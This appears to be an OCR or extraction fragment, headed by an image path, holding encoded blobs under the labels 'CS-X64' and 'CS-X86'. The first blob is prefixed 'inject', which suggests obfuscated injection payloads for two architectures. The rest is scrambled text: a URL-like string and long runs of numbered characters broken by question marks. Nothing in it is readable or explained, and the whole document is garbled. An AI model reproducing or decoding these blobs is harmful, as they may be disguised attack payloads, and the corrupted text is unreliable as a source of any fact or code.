 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

najsc45|????2?,R????;6,O;??10,????n;14,???t;18,????c;????22???,t;26?,a????;3??0,??k?;34?,z?;38????,d;4???2,C?;46???,o;5???0,Y;5???4,u;5??8,e;6???2,?o;66??,?G??;7???0?,X?;74???,5;????78,%;???82??,???b?;86,??8?;90,??d;94,???S;98???,L???;1???0????2,6;??10??6,S;???110,v????;114??,a;11?8,u;?1??2????2,I;1???26????,??a;13????0,?,;134??,w;1???38,???F;1?4????2,K;1????46,?d;?1?50,??L;??154,????I;1????58,8???;16????2,E;???166??,m;1???70???,C????;174?,W;17???8,??4????;|?uy?HR???msg??Ointn?ztmt?tELc???w5vt?JHDaO?vYkdB???b???z??sHfd???PzzC???H??foo?g??Bn?Y?tTNuI????zBe?jLS???o?My5GD??rvXYK??o5r????xm%dm????ebz1e????8wDE????drMf????SN?t???zLvKZ????6???Wu???t??SDfw?vvD???P??a??o5t?uAb?wI4????eW???a??dt???n,???Bkfw??UPtFz????xH?K????1??rzdw?OK??LnH?D???I???j????Mx8Nr??bEAIt????m0????Kt???CPM?rW???qp=4=fgwen
